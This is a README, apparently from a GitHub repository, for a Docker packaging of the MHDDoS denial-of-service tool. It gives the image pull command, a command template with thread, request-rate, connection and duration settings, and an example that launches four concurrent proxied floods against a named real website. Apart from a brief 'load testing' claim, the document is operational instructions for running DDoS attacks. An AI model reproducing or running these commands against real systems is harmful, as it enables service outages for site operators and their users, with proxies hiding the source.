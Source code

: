 # MHDDoS Docker

This repository provides instructions to use the MHDDoS tool in a Docker container. MHDDoS is a tool that performs distributed denial-of-service (DDoS) attacks for load testing or stress testing purposes. The image is hosted on Docker Hub and can be used to perform attacks with customizable proxies.

## Prerequisites

- Docker installed on your machine.
- A proxy list file (e.g., `https.txt`) containing the proxies to be used in the attacks (optional if you intend to provide proxies manually or dynamically).

## Usage

### Pull the Docker Image

To get the latest version of the Docker image, run:

```bash
docker pull seanr95/mhddos:latest
```

## Running with a Prepopulated Proxy File

If you already have a proxy file, you can map it into the container and run the MHDDoS tool with the following steps:

1. Ensure your proxy file (e.g., `https.txt`) is located on your server. For this example, the file is located at `/home/MHDDoS/files/proxies/https.txt`.
   
2. Use the `-v` flag to map the local proxy file to the container, then run the attack with the following command:

### Command Template

```bash
docker run -d \
    -v /path/to/proxies.txt:/app/files/proxies/https.txt \
    seanr95/mhddos bash -c 'python3 start.py [METHOD] [URL] [THREADS] [REQUESTS] [PROXY FILE] [CONNECTIONS] [TIME]'
```

Where:
- `[METHOD]`: HTTP method (`GET`, `POST`, etc.).
- `[URL]`: The target URL.
- `[THREADS]`: Number of threads.
- `[REQUESTS]`: Number of requests per second.
- `[PROXY FILE]`: The proxy list file (e.g., `https.txt`).
- `[CONNECTIONS]`: Number of connections.
- `[TIME]`: Time duration for the attack in seconds.

## Example Use Case

```bash
docker run -d \
    -v /home/MHDDoS/files/proxies/https.txt:/app/files/proxies/https.txt \
    seanr95/mhddos bash -c 'parallel ::: \
    "python3 start.py GET https://autodemo.radware.net 1 100 https.txt 100 300" \
    "python3 start.py GET https://autodemo.radware.net/ 1 100 https.txt 100 300" \
    "python3 start.py GET https://autodemo.radware.net/ 1 100 https.txt 100 300" \
    "python3 start.py GET https://autodemo.radware.net/ 1 100 https.txt 100 300"'
```

This command will initiate four concurrent MHDDoS attacks using proxies from the prepopulated `https.txt` file.


